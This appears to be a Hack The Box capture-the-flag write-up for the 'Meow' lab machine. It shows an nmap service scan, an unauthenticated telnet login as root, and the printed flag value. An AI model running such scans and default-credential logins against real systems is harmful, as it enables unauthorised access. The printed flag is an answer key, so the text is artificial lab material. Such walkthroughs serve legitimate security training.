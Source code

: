 # Hack The Box Machines: Meow

First of all, I'll make a service detection on the target machine with **nmap** using the **-sV** flag.
```sh
❯ target=10.129.179.81
❯ nmap -sV $target
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-13 11:49 CEST
Nmap scan report for 10.129.179.81
Host is up (0.070s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.62 seconds
```

As it can be seen, the TCP port 23 is open with a telnet service running on it. The version uses telnetd from linux.

So, let's try connect to the target machine using the tool **telnet** from linux. 

```sh
❯ telnet $target
Trying 10.129.179.81...
Connected to 10.129.179.81.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
root@Meow:~#
```

As seen, the target machine asks for login user, in this case let's try a common user login **root**. And as we can see it's a correct login. Now let's find the flag.

```sh
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```

Finally the flag found it is **b40abdfe23665f766f9c61ecba8a4c19**.
